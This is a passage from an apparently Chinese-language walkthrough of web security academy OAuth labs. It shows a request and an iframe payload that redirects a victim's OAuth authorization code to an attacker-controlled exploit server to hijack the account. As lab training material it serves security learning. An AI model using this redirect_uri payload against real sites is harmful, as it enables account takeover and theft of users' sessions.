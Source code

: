 ![2.1](OAuth-authentication.assets/2.1.png)

然后进去删除账户就好了。

## 3. OAuth account hijacking via redirect_uri

这个题目正常登录之后，再次登陆就可以直接进去了。

感觉如果让受害者直接登陆，然后劫持他的oauth-callback，感觉可以登陆进去。

```http
GET /auth?client_id=uf5u0jrfiseejy43hxywk&redirect_uri=https://acc21f661e9566c180cc1bdc0028005b.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: aca51f2e1ed166d480e81b4a02f80012.web-security-academy.net
```

但是直接加这个，好像有点问题。因为responce不会发送到我们的exploit里面。尝试将redirect_uri参数改成exploit（这里是redirect_uri的值会改变后面重定向的url）。

```html
<iframe src="https://aca51f2e1ed166d480e81b4a02f80012.web-security-academy.net/auth?client_id=uf5u0jrfiseejy43hxywk&redirect_uri=https://accd1f8c1e12660580881b17016000b2.web-security-academy.net/exploit&response_type=code&scope=openid%20profile%20email"></iframe>
```

发送给受害者之后，查看一下log。

